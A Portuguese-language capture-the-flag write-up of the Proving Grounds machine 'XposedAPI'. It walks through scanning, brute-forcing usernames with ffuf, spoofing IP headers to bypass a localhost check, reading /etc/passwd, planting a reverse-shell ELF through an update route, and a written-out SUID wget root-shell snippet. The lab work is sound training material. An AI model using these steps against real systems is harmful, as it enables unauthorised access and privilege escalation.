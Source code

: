 ```yaml
---
title: Proving Grounds - XposedAPI
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Proving Grounds]
tags: [writeup, walkthrough, xposedapi, proving, grounds, PG, tutorial, hacking, pentest, ctf, capture, flag, proof, linux, medium, médio]
mermaid: true
image: "https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/api.jpg"
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_medio.png) | ![](/assets/img/nivel/button_medio.png) | 14 de Dezembro de 2022 | 19 de Dezembro de 2022

## 1. Escaneamento

```bash
Nmap scan report for 192.168.160.134
Host is up (0.21s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
13337/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/14%OT=22%CT=1%CU=33249%PV=Y%DS=2%DC=T%G=Y%TM=6399E8
OS:E2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I)SEQ(SP=108%G
OS:CD=1%ISR=109%TI=Z%TS=9)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I%TS=A)OPS(O1=M5
OS:4EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O
OS:6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=A
OS:R%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## 2. Enumeração

### Remote Software Management (13337)

Ao entrar na página web, vemos que a aplicação é um tipo de API e ja nos é exposto algumas rotas

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed.png)

> /version
{: .prompt-info }

A rota `version` apenas nos retorna a versão `1.0.0b` e provavelmente um hash md5 em sequência `8f887f33975ead915f336f57f0657180`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed1.png)

> /logs
{: .prompt-info }

A rota logs mostra que nosso hpst não tem acesso ao logs, provavelmente por ser acessível somente localmente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed2.png)

Seguindo a descrição da rota update, deve-se enviar um post com user e url de um arquivo elf, para ser baixado e executado. Obviamente, aqui é o ponto de entrada, porém falta o nome de usuário.

```html
/update

Methods: POST

Updates the app from ELF file. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

> /update
{: .prompt-info }

Como forma de descobrir o usuário, meu primeiro pensamento foi em tentar um bruteforce, então utilizando a ferramenta ffuf, tentei encontrar um usuário cuja resposta da página não retornasse `username invalid` porém não obtive sucesso…

- Comando: `ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u [http://192.168.117.134:13337/update](http://192.168.117.134:13337/update) -X POST -H "Content-Type: application/json" -d '{"user": "FUZZ", "url": "[http://192.168.49.117](http://192.168.49.117/)"}' -fs 17 -x [http://127.0.0.1:8080](http://127.0.0.1:8080/)`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed3.png)

> /restart
{: .prompt-info }

Ao enviar o restart, aparece um popup de confirmação do reinicio, porém ao clicar nele nada acontece aparentemente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed4.png)

Ao interceptar com o Burp, verifica-se que o script envia um json de confirmação via POST pra causar o reinicio. Ao replicar isso, o serviço realmente reinicia:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed5.png)

Retornando a rota logs, procurei uma forma de burlar a detecção de host do sistema. Encontrei algumas dicas no HackTricks, onde sugere-se o uso de alguns headers que podem causar esse bypass.

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

Ao testar o segundo header, uma mensagem de erro diferente apareceu, sugerindo usar um parâmetro na url para ter acesso ao arquivo de log.

- Header: `X-Forwarded-For: 127.0.0.1`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed6.png)

Como o nome do arquivo é passado, tentei passar direto o arquivo de usuários `/etc/passwd` e deu certo, nos retornando a lista de usuários, agora podemos tentar upar o arquivo `.elf` malicioso usando o usuário `clumsyadmin`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed7.png)

Pra isso, subi um servidor http em python e enviei a requisição via BURP, retornando com sucesso a requisição para nós.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed8.png)

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed9.png)

## 3. Acesso Inicial - Exploração

Sendo assim, criei o binário com o msvenom, subi o servidor HTTP e abri uma porta de escuta para receber o shell

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed10.png)

Agora é necessário reiniciar o servidor e é só reenviar o post com a confirmação que descobrimos antes:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed11.png)

E o shell veio:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed12.png)

## 4. Pós Exploração

Como de praxe, upei o [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng) e fiz a varredura interna de vulnerabilidades.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed13.png)

A enumeração nos retornou o binário `wget` com execução de `SUID`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed14.png)

## 5. Escalação de Privilégio

Então é só seguir os comandos descritos no [GTFOBins - Wget SUID](https://gtfobins.github.io/gtfobins/wget/#suid)

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

Por fim, root.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed15.png)